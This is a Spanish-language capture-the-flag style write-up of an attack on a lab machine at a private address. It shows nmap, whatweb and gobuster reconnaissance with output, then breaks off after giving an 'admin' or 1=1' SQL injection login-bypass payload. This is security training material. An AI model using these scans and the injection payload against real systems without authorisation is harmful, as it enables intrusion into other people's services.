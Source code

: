 ### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p22,80 172.18.0.2 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.59 ((DebianSid))
```
---

## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://172.18.0.2
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.18.0.2 # No reporta nada critico
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.18.0.2 # No reporta nada critico
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -add-slash
```

**Hallazgos Relevantes:**
```bash
/javascript           (Status: 301) [Size: 313] [--> http://172.18.0.2/javascript/]
```

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt,html,js,pl
```

- **Hallazgos**:
```bash
/index.php            (Status: 200) [Size: 855]
/db.php               (Status: 200) [Size: 0]
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que ya tenemos informacion de la base de datos, Usaremos estas credenciales para intentar nos conectar por **ssh** ya que esta expuesto este servicio.
### Ejecucion del Ataque
Tenemos esta direccion **URL** en donde nos permite buscar por usuarios, A la cual usaremos inyecciones **SQL**
```bash
admin' or 1=1-- -
```
